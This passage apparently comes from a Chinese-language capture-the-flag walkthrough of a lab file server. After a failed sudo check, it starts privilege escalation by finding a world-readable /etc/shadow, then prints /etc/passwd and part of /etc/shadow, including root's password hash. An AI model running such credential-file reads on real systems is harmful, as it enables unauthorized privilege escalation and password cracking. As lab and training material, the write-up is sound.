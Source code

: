   ```
         valid_lft forever preferred_lft forever
  [smbuser@fileserver tmp]$ sudo -l
  [sudo] password for smbuser: 
  Sorry, try again.
  [sudo] password for smbuser: 
  Sorry, user smbuser may not run sudo on fileserver.
  ```

## 提权

- 查看当前系统`passwd`文件,发现另外一个用户,但是我们没有密码, 这时候查看`shadow`文件,发现当前用户可读.

- ```shell
  [smbuser@fileserver tmp]$ cat /etc/passwd
  root:x:0:0:root:/root:/bin/bash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  sync:x:5:0:sync:/sbin:/bin/sync
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
  halt:x:7:0:halt:/sbin:/sbin/halt
  mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
  operator:x:11:0:operator:/root:/sbin/nologin
  games:x:12:100:games:/usr/games:/sbin/nologin
  ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
  nobody:x:99:99:Nobody:/:/sbin/nologin
  avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
  dbus:x:81:81:System message bus:/:/sbin/nologin
  polkitd:x:999:998:User for polkitd:/:/sbin/nologin
  tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
  postfix:x:89:89::/var/spool/postfix:/sbin/nologin
  sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
  systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
  gluster:x:998:995:GlusterFS daemons:/run/gluster:/sbin/nologin
  smbuser:x:1000:1000::/home/smbuser:/bin/bash
  rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
  tcpdump:x:72:72::/:/sbin/nologin
  rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
  nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
  apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
  bla:x:1001:1001::/home/bla:/bin/bash
  [smbuser@fileserver tmp]$ ls -lahi /etc/passwd
  33651245 -rw-r--r-- 1 bla bla 1.4K Feb 25  2020 /etc/passwd
  [smbuser@fileserver tmp]$ cat /etc/shadow
  root:$6$zWU8uYN5$iHT030gilg9kM1iYCZt/z3q4fWpSNHwwLElFWof/C3MfbqgmbWAnG5sXFEdkMj60MLvYc6HEB7/REq2u2aVVh0:18317:0:99999:7:::
  bin:*:16372:0:99999:7:::
  daemon:*:16372:0:99999:7:::
  adm:*:16372:0:99999:7:::
  lp:*:16372:0:99999:7:::
  sync:*:16372:0:99999:7:::
  shutdown:*:16372:0:99999:7:::
  halt:*:16372:0:99999:7:::
  mail:*:16372:0:99999:7:::
  operator:*:16372:0:99999:7:::
  games:*:16372:0:99999:7:::
  ftp:*:16372:0:99999:7:::
  nobody:*:16372:0:99999:7:::
  avahi-autoipd:!!:18310::::::
  dbus:!!:18310::::::
  polkitd:!!:18310::::::
  tss:!!:18310::::::